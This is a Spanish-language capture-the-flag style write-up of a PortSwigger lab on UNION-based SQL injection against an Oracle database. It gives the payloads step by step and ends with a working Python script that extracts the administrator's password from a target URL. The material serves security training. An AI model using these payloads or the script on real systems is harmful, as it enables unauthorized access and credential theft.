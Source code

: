 ```yaml
---
title: "10 SQL injection attack, listing the database contents on Oracle"
collection: publications
category: portswigger
permalink: publications/SQLi/10_SQL injection attack, listing the database contents on Oracle
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION en una base de datos Oracle que recupera los nombres de usuario y las contraseñas de todos los usuarios de la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection attack, listing the database contents on Oracle'
---
```


![logo]({{site.url}}/images/SQLi/sqli-10/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-10/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, inicia sesión como usuario administrador.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-10/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
```

![Order by]({{site.url}}/images/SQLi/sqli-10/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String', ya que es una BD oracle debemos llamar la  tabla DUAL

```javascript
' UNION SELECT 'A', NULL FROM DUAL--
' UNION SELECT NULL, 'A' FROM DUAL-- 
' UNION SELECT 'A', 'A' FROM DUAL--
```

![String]({{site.url}}/images/SQLi/sqli-10/campo string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Ya que sabemos que es una BD de Oracle probamos averiguar la versión de Oracle

```javascript
' UNION SELECT banner, NULL FROM v$version--
```

![version]({{site.url}}/images/SQLi/sqli-10/version.png)

## Obtenemos todas las tablas

Ya sabemos que es una BD Oracle debemos listar las tablas

```javascript
' UNION SELECT table_name, NULL FROM all_tables--
```

```Tabla
USERS_HZTDAO
```

![tablas]({{site.url}}/images/SQLi/sqli-10/tablas.png)

## Obtenemos el nombre de las columnas

Ya sabemos que la tabla se llama `USERS_HZTDAO` ahora listamos las filas de la tabla

```javascript
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_HZTDAO'--
```

```
USERNAME_PFWFAV
PASSWORD_RXDLTE
```

![nombre columnas]({{site.url}}/images/SQLi/sqli-10/nombre columnas.png)

## Listamos el usuario y password

```javascript
' UNION select USERNAME_PFWFAV, PASSWORD_RXDLTE from USERS_HZTDAO--
```

![Password]({{site.url}}/images/SQLi/sqli-10/password.png)

## Realizamos Login

![Login]({{site.url}}/images/SQLi/sqli-10/login.png)

## Resuelto

![Login]({{site.url}}/images/SQLi/sqli-10/Aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def perform_request(url, sql_payload):
    path = "/filter?category=Gifts"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    return r.text

def sqli_users_table(url):
    sql_payload = "' UNION SELECT table_name, NULL FROM all_tables--"
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    users_table = soup.find(text=re.compile('^USERS\_.*'))
    return users_table

def sqli_users_columns(url, users_table):
    sql_payload = "' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = '%s'-- " % users_table
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    username_column = soup.find(text=re.compile('.*USERNAME.*'))
    password_column = soup.find(text=re.compile('.*PASSWORD.*'))
    return username_column, password_column

def sqli_administrator_cred(url, users_table, username_column, password_column):
    sql_payload = "' UNION select %s, %s from %s--" % (username_column, password_column, users_table)
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    admin_password = soup.find(text="administrator").parent.findNext('td').contents[0]
    return admin_password

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("Looking for the users table...")
    users_table = sqli_users_table(url)
    if users_table:
        print("Found the users table name: %s" % users_table)
        username_column, password_column = sqli_users_columns(url, users_table)
        if username_column and password_column:
            print("Found the username column name: %s " % username_column)
            print("Found the password column name: %s" % password_column)

            admin_password = sqli_administrator_cred(url, users_table, username_column, password_column)
            if admin_password:
                print("[+] The administrator password is: %s " % admin_password)
            else:
                print("Did not find the administrator password")
        else:
            print("Did not find the username and/or the password columns")
    else:
        print("Did not find a users table.")
```